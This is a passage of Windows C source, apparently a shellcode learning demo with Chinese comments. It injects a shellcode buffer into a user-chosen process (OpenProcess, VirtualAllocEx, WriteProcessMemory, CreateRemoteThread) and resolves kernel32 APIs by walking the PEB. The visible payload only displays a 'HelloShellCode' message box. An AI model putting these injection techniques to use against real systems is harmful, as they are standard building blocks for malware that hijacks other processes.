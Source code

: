 		tp.Privileges[0].Attributes=SE_PRIVILEGE_ENABLED;
		AdjustTokenPrivileges(hToken,FALSE,&tp,sizeof(tp),NULL,NULL);
		
		fOk=(GetLastError()==ERROR_SUCCESS);
		CloseHandle(hToken);
	}
    return fOk;
}


int main(int argc, char* argv[])
{
	//CreateThread(0,0,ShellCode,0,0,0);
	// 打印shellcode
	//printf("输入ShellCode的地址: ");
	//DWORD dwAddr;
	//scanf("%x",&dwAddr);
	//getchar();
	//PrintHexArray((PVOID)dwAddr, 0x4F4);

	//DWORD dwOldProtect;
	//VirtualProtect(ShellCodebuff,0x1000,PAGE_EXECUTE_READWRITE,&dwOldProtect);
	//CreateThread(0,0,(LPTHREAD_START_ROUTINE)&ShellCodebuff,0,0,0);

	EnableDebugPrivilege();
	DWORD dwWritten;
	DWORD pid;
	printf("请输入要注入的进程PID: ");
	scanf("%d", &pid);
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS,FALSE,pid);
	PVOID pAddr = VirtualAllocEx(hProcess,0,0x1000,MEM_COMMIT|MEM_RESERVE,PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProcess,pAddr,ShellCodebuff,0x4F4,&dwWritten);
	CreateRemoteThread(hProcess,0,0,(LPTHREAD_START_ROUTINE)pAddr,0,0,0);

	
	getchar();
	return 0;
}

DWORD WINAPI ShellCode(PVOID lpThreadParameter)
{
	HMODULE hKernel32 = NULL;
	HMODULE hUser32 = NULL;
	PGETPROCADDRESS pGetProcAddress = NULL;
	PLOADLIBRARYA pLoadLibraryA = NULL;
	PMESSAGEBOXA pMessageBoxA = NULL;
	PPEB_LDR_DATA pLDR = NULL;
	PLDR_DATA_TABLE_ENTRY pLdteHead;
	PLDR_DATA_TABLE_ENTRY pLdteCur;
	BOOL bEqual = FALSE;

	char szKernel32[] = {'k',0,'e',0,'r',0,'n',0,'e',0,'l',0,'3',0,'2',0,'.',0,'d',0,'l',0,'l',0,0,0}; // Unicode
	char szUser32[] = {'u','s','e','r','3','2','.','d','l','l',0};
	char szGetProcAddress[] = {'G','e','t','P','r','o','c','A','d','d','r','e','s','s',0};
	char szLoadLibrary[] = {'L','o','a','d','L','i','b','r','a','r','y','A',0};
	char szMessageBoxA[] = {'M','e','s','s','a','g','e','B','o','x','A',0};
	char szHelloShellCode[] = {'H','e','l','l','o','S','h','e','l','l','C','o','d','e',0};
	__asm
	{
		mov eax,fs:[0x30] // PEB
		mov eax,[eax+0x0C] // PEB->LDR
		mov pLDR,eax
	}
	// find kernel32.dll
	pLdteHead = (PLDR_DATA_TABLE_ENTRY)(&pLDR->InLoadOrderModuleList);
	pLdteCur = (PLDR_DATA_TABLE_ENTRY)(pLdteHead->InLoadOrderLinks.Flink);	
	do 